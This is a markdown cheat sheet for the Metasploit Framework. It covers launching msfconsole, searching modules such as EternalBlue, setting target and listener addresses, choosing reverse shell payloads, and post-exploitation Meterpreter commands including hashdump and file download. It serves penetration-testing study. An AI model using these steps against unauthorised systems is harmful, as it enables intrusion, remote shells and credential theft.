 # 💣 Metasploit Cheat Sheet

**Metasploit Framework** is a powerful tool for developing and executing exploit code against remote target machines.

---

## 🚀 Starting Metasploit

```bash
msfconsole         # Launch the Metasploit Framework console
msfupdate          # Update Metasploit
```

---

## 🔍 Search Modules

```bash
search <keyword>              # Search for exploits, payloads, etc.
info <module_path>            # Get detailed info about a module
```

Example:
```bash
search type:exploit name:smb
info exploit/windows/smb/ms17_010_eternalblue
```

---

## 📦 Using a Module

```bash
use exploit/path/module       # Load an exploit module
set RHOST <target_ip>         # Set target host
set RPORT <target_port>       # Set target port (if needed)
set PAYLOAD <payload_type>    # Set the payload
set LHOST <your_ip>           # Set listener IP
set LPORT <your_port>         # Set listener port
run                           # Run the exploit
```

---

## 📡 Payload Examples

| Payload | Description |
|---------|-------------|
| `windows/meterpreter/reverse_tcp` | Reverse shell via TCP |
| `windows/shell/reverse_http` | Reverse shell via HTTP |
| `linux/x86/meterpreter/reverse_tcp` | Meterpreter for Linux |

---

## 🛠️ Useful Commands (Post Exploitation)

Inside a Meterpreter session:

```bash
sysinfo           # Get system info
getuid            # Get user ID
ps                # List processes
shell             # Drop into shell
screenshot        # Capture screenshot
download <file>   # Download a file
upload <file>     # Upload a file
hashdump          # Dump SAM hashes
```

---

## 🕵️‍♀️ Database & Workspace

```bash
db_status         # Check if database is connected
workspace -a <name>   # Create a new workspace
hosts             # List hosts in database
services          # List discovered services
```

---

## 📌 Tips

- Always check `show options` and `show advanced`
- Use `exploit -j` to run in background job
- Combine with `Nmap` scans using `db_import`
- Many `post/` modules exist for privilege escalation and persistence

---

📁 [Back to Tools Index](./README.md) | 🔗 [Metasploit Unleashed](https://metasploit.help.rapid7.com/)
